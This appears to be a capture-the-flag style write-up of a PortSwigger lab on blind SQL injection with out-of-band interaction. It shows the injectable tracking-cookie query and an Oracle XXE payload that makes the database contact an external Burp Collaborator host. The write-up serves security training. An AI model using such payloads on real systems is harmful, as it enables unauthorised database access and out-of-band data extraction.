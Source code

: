 # Lab: Blind SQL injection with out-of-band interaction

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>  
Difficulty: PRACTITIONER  
Burp Suite Professional is required to solve this lab!

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- Goal: Perform a DNS lookup

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is to create a new Burp Collaborator listener

![create collaborator](img/create_collaborator.png)

The [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) contains multiple strings to cause a DNS lookup. I don't know the database engine used, so I try all payloads given there.

Starting with Oracle, I append the given payload to the cookie value. I ensure the query remains valid by adding brackets, concatenations and quotes around the payload (`'||(<PAYLOAD>)||'`) to create this query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h9r49h8t93o98v0z0canusskqbw1kq.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'
```

![collaborator hit](img/collaborator_result.png)

![success](img/success.png)
